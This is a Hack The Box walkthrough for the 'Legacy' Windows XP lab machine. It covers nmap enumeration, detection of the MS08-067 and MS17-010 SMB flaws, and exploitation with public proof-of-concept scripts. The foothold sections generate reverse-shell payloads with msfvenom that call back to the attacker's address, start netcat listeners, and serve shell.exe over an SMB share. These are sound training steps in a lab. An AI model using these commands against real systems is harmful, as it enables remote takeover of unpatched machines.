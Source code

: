# \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | ![](images/1.png) |

## Information Gathering

### Openning Services

```
┌──(Hades㉿10.10.14.5)-[0.5:14.1]~/scripting
└─$ sudo ./enum/all.sh 10.10.10.4
[sudo] password for kali: 

### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.4 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 139,445,3389

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.4 -p139,445,3389
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 23:38 EDT
Nmap scan report for 10.10.10.4
Host is up (0.25s latency).

PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h16m00s, deviation: 2h07m16s, median: -5h46m00s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:c4:3d (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-04-01T03:52:25+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.23 seconds
```

### Server Message Block

Enum with `smbmap` and `smbclient`, but cannot see value info.

```
### SMB Enumeration (445) ############################
smbmap -H 10.10.10.4                                                                                                                                                        
[+] IP: 10.10.10.4:445  Name: 10.10.10.4                                        
smbclient -L 10.10.10.4         
protocol negotiation failed: NT_STATUS_IO_TIMEOUT
```

Using `nmap` to scan smb vulnerability:

```
┌──(Hades㉿10.10.14.5)-[0.6:18.5]~/scripting
└─$ nmap -p 139,445 --script smb-vul* 10.10.10.4 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 23:43 EDT
Nmap scan report for 10.10.10.4
Host is up (0.25s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 36.31 seconds
```

## Foothold

### smb-vuln-ms08-067

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy)

<a href='https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py' target="blank">Microsoft Windows Server 2000/2003 - Code Execution (MS08-067)</a>

In the poc, I neet to `REPLACE THIS SHELLCODE with shellcode generated for your use`.

The bad chars `"\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"`

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

Create a listener in Kali machine.

``` bash
sudo nc -nvlp 443
```
Convert poc to python3

```
2to3 ms08-067.py
```

Get reverse shell

```bash
python3 ms08-067.py 10.10.10.4 6 445 > /dev/null
```

![](images/2.png)

Create smb server in Kali Machine to check privilege.

```
sudo smbserver.py public /usr/share/windows-resources/binaries/ > /dev/null
```

```
\\10.10.14.5\public\whoami.exe
```

### smb-vuln-ms17-010

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy)

<a href='https://github.com/helviojunior/MS17-010' target="blank">Microsoft Security Bulletin MS17-010 (EternalBlue/MS17-010)</a>

Generate reverse shell file `shell.exe` in the same payload's folder using `msfvenom`.

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe
```

Create a listener in Kali machine.

``` bash
sudo nc -nvlp 443
```

Get reverse shell

```bash
python send_and_execute.py 10.10.10.4 shell.exe > /dev/null
```

![](images/5.png)

Run cmd in poc file

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy)

Get reverse shell

```
sudo smbserver.py public /home/kali/walkthrough/hackthebox/legacy > /dev/null
```

```
python cmd.py 10.10.10.4 '\\10.10.14.5\public\shell.exe' > /dev/null
```

![](images/6.png)

## Reference

[worawit/MS17-010](https://github.com/worawit/MS17-010)

<a href='https://0xdf.gitlab.io/2019/02/21/htb-legacy.html' target="blank">HTB: Legacy of 0xdf hacks stuff</a>

<a href='https://pycryptodome.readthedocs.io/en/latest/src/installation.html' target="blank">Install PyCrypto library</a>